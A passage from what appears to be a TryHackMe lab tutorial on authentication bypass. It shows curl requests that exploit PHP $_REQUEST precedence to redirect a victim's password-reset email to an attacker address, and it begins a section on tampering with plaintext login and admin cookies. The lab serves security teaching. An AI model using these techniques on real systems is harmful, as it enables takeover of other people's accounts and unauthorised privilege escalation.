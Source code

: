 We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request. 

In the application, the user account is retreived using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```shell
user@tryhackme$ curl 'http://10.10.214.229/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format `{username}` @customer.acmeitsupport.thm

Now running **Curl Request 2** but with your `@acmeitsupport.thm` in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support ticket and reveal a flag. 

```shell
user@tryhackme:~$ curl 'http://10.10.214.229/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

# Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the HTTP in detail room. 

### Plain Text

The contents of some cookies can be in plaintext, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

**Set-Cookie: logged_in=true; Max-Age=3600; Path=/**  
**Set-Cookie: admin=false; Max-Age=3600; Path=/**

We see one cookie (logged in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:

```shell
user@tryhackme$ curl http://10.10.111.86/cookie-test
```
